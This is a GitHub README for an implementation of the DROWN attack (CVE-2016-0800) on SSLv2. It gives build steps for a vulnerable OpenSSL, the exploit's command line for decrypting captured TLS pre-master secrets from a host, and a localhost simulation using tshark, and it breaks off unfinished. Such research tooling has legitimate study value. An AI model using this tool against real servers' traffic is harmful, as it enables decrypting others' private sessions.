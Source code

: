 # drown
Implementation of the special DROWN attack on SSL2

Note : this does not cover the general DROWN attack.


## Installation

First, we need a version of OpenSSL with SSLv2 enabled. Also, if we want to make some simulations, we need a vulnerable OpenSSL (<= 1.0.1l).
We will compile and install it on the folder /path/to/prefix :

    wget https://www.openssl.org/source/openssl-1.0.1l.tar.gz
    tar xzf openssl-1.0.1l.tar.gz
    cd openssl-1.0.1l
    ./config enable-ssl2 enable-weak-ciphers --openssldir=/path/to/prefix
    make && make install

Now let's compile the exploit :

    git clone https://github.com/Tim---/drown
    SSL_PREFIX=/path/to/prefix make

To decrypt an encrypted pre-master secret c, using the public key (n, e) of the server at the address host:port, we will use the following command :

    ./drown host:port c n e

## Passive attack

In this type of attack, we can see the traffic between a server and a client using TLS.
In this case, we can decrypt some TLS sessions if :
* the same server, or another server, allows SSLv2 connections with the same public key ;
* the TLS sessions uses RSA as a key exchange algorithm (no Diffie-Hellman) ;
* the server is vulnerable to CVE-2016-0800 ;
* there is a sufficient number of session.

## Simulation

To simulate this scenario, want to record some TLS handshakes between a client and a server.
We will use the old version of OpenSSL we have installed to create a server, and initiate a lot of sessions.
We will capture the handshakes with tshark.

    cd /path/to/prefix
    ./bin/openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 123
    ./bin/openssl s_server -cert cert.pem -key key.pem -accept 4433 -www
    tshark -i lo -w handshakes.cap
    for i in $(seq 1000) ; do (echo 'GET / HTTP/1.1\r\n'; sleep 0.1) | ./bin/openssl s_client -connect 127.0.0.1:4433 -cipher kRSA; done

We can now get the encrypted pre-master secrets for each session with :

    tshark -r handshakes.cap -d tcp.port==4433,ssl -T fields -e ssl.handshake.epms -Y ssl.handshake.epms | tr -d :

Now we must decrypt these handshakes (to be continued...).
